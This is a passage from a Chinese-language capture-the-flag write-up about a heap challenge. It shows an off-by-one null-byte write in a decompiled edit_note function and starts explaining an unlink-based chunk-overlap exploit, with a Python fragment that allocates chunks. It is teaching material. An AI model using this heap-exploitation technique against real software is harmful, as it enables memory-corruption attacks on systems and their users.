 而且`mallopt(1, 0)`禁用了fastbin。

通过分析程序，整个程序就一个offbyone漏洞，可以多溢出一个\x00。

```c
unsigned __int64 edit_note()
{
  int v1; // [rsp+0h] [rbp-10h]
  int v2; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v3; // [rsp+8h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  puts("Index ?");
  _isoc99_scanf("%d", &v1);
  if ( v1 >= 0 && v1 <= 15 && note[v1] )
  {
    puts("Content: ");
    v2 = read(0, note[v1], note_size[v1]);
    *((_BYTE *)note[v1] + v2) = 0;//offbyone
    puts("Done");
  }
  else
  {
    puts("Invalid index");
  }
  return __readfsqword(0x28u) ^ v3;
}
```



## 0x01 利用思路

### 1 堆重叠

因为程序存在offbyone，所以可以将下一个chunk的P标志位覆盖为0，接着触发unlink，利用glibc的边界标记法，实现堆重叠。堆重叠的效果就是两个chunk的内存区域重叠，因为程序不存在UAF，所以可以利用堆重叠，通过未被释放的chunk对已经被释放的内存区域写数据。写的内容可以为unsortedbin chunk的fd、bk指针，largebin chunk的fd、bk、fd_next、bk_next指针。

### 1 构造堆重叠

```python
	add(0x28)#0
	add(0x528)#1	
	add(0xf8)#2
	add(0x28)#3

	add(0x28)#4
	add(0x518)#5
	add(0xf8)#6
	add(0x28)#7
```

首先创建了8个chunk，分别构造两个堆重叠
